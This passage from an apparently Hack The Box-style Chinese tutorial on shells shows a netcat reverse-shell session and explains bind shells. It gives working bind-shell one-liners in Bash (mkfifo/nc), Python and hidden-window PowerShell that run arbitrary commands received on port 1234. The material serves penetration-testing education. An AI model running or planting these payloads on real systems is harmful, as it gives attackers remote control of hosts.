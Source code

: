 ```Plaintext
jw0610a@htb[/htb]$ nc -lvnp 1234

listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

正如我们所看到的，在我们的`netcat`监听器上收到连接后，我们可以输入我们的命令，并直接在我们的机器上获得其输出。

反向shell非常方便，当我们想要快速获得对已入侵主机的可靠连接时。然而，反向shell非常脆弱。一旦反向shell命令停止，或者由于任何原因失去连接，我们将不得不再次使用初始利用来执行反向shell命令，以恢复访问。

## 绑定shell（Bind Shell）

另一种类型的shell是`绑定shell（Bind Shell）`。与连接到我们的反向shell不同，我们将不得不连接到绑定shell的`目标`监听端口上。

一旦我们执行`绑定shell命令`，它将在远程主机上的一个端口上开始监听，并将该主机的shell（如`Bash`或`PowerShell`）绑定到该端口上。我们需要使用`netcat`连接到该端口，并通过该shell获得控制。

#### 绑定shell命令

我们可以再次利用[Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Bind%20Shell%20Cheatsheet.md)找到一个适合的命令来启动我们的绑定shell。

注意：我们将在远程主机上启动一个监听连接，监听端口为'1234'，IP为'0.0.0.0'，以便我们可以从任何地方连接。

以下是我们可以使用的可

靠命令来启动绑定shell：

```Bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
```

```Python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

```PowerShell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();
```

---

#### Netcat连接

一旦我们执行绑定shell命令，我们应该在指定的端口上有一个等待我们连接的shell。我们现在可以连接到它。
